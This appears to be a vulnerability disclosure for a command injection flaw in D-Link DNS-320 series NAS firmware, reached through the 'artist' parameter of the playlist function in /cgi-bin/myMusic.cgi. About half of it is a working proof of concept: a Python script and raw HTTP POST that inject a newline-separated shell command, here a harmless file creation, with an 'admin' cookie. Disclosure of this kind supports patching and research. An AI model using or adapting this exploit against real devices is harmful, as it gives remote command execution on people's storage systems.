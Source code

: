 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_create_playlist function of the file /cgi-bin/myMusic.cgi.  The variable `artist`is passed from a POST request and is assigned to `v14` via the `sprintf` function at line 89  and invoked by the `system` command,  the `SpecSymbol2BackSlash` function did not work  which leads to command execution.

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723707717652-0377e2fa-8198-467b-b77a-7192c516e1a8.png#averageHue=%23fdfdfd&clientId=ud48b7066-625b-4&from=paste&height=456&id=u524cad3d&originHeight=1011&originWidth=883&originalType=binary&ratio=1&rotation=0&showTitle=false&size=124828&status=done&style=none&taskId=u58291e30-03da-4649-8cc7-525e728d5d5&title=&width=398)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723707672017-c7abfcfc-163f-4bfc-90d2-b9613d53d74b.png#averageHue=%23fefdfc&clientId=ud48b7066-625b-4&from=paste&height=198&id=uc1765329&originHeight=417&originWidth=923&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31746&status=done&style=none&taskId=uaee1a3d9-ab9a-4c2e-8b79-6ec69e39ef1&title=&width=438)



# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_create_playlist&ptype=11&album=1&user=photos&idx=10&artist=%0atouch%09/tmp/999%0a&genre=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_create_playlist&ptype=11&album=1&user=photos&idx=10&artist=%0atouch%09/tmp/999%0a&genre=10&date=19&album_name=/tmp/
```


